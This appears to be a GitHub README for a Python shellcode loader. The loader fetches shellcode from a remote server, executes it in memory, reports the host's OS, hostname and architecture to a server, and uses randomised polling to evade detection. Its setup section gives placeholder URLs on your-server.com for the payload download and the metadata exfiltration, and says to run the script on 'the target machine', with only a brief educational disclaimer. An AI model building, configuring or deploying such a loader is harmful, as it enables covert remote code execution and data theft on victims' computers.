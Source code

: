 # Shellcode loader
Shellcode loader written in Python.

Overview

This project provides a basic shellcode loader written in Python. The loader:

    Fetches shellcode from a specified URL.
    Executes the shellcode directly in memory.
    Collects basic metadata about the host machine.
    Sends the metadata back to a specified server.
    Polls the server at random intervals to disguise traffic patterns (jitter).

Note: This tool is intended for educational purposes or controlled environments. Executing shellcode can be dangerous and should be done responsibly and legally.
Features

    Dynamic Shellcode Loading: The loader does not have the shellcode embedded in it but fetches it from a server.
    Metadata Reporting: Sends basic system information (e.g., OS, hostname, architecture) to a server.
    Jitter Implementation: Polls the server at random intervals to reduce detection.

Requirements

    Python 3.x
    Internet connection for fetching shellcode and sending metadata

Setup

    Prepare the Server:
        Host your shellcode binary (e.g., shellcode.bin) on a web server.
        Create an endpoint to receive metadata (e.g., metadata endpoint).

    Modify the Script:
        Update the URLs in the script with your server's URLs:

        python

    shellcode_url = "http://your-server.com/shellcode.bin"
    metadata_url = "http://your-server.com/metadata"

Run the Script:

    Execute the Python script on the target machine:

'''python shellcode_loader.py'''
